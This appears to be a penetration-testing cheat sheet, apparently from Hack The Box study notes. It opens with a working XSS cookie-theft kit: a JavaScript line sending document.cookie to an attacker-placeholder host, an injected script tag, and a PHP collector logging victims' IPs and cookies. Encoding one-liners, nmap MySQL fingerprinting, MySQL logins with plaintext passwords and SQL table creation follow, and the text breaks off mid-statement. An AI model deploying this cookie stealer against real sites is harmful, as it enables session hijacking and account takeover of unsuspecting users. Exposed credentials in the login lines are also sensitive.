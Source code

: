 ```bash
# Save script.js
new Image().src='http://OUR_IP/index.php?c='+document.cookie

# XSS injection
<script src=http://OUR_IP/script.js></script>

# We can save the following PHP script as index.php, and re-run the PHP server again:
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


# Encoding
```bash
# Spotting Base64": Length is multiple of 4, Only use alpha-numeric characters, padding using = characters.
echo https://www.hackthebox.eu/ | base64
echo aHR0cHM6Ly93d3cuaGFja3RoZWJveC5ldS8K | base64 -d

# Spotting Hex: 16 characters only: 0-9 and a-f
echo https://www.hackthebox.eu/ | xxd -p
echo 68747470733a2f2f7777772e6861636b746865626f782e65752f0a | xxd -p -r

# Caesar/Rot13
echo https://www.hackthebox.eu/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'
echo uggcf://jjj.unpxgurobk.rh/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

# SQL
## MySQL
Check if MySQL is running with privileged accoun

```bash
# MySQL configuration file
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'

# Finger printing with nmap
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

# mysql login
mysql -u 'root' -h 192.168.183.122 -p
mysql -u 'root' -h 192.168.183.122 -pPassword
mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea(dbname)

# Creating a database
CREATE DATABASE users;

# Creating a table
CREATE TABLE logins (
    id INT NOT NULL AUTO_INCREMENT,
    username VARCHAR(100) UNIQUE NOT NULL,
    password VARCHAR(100) NOT NULL,
```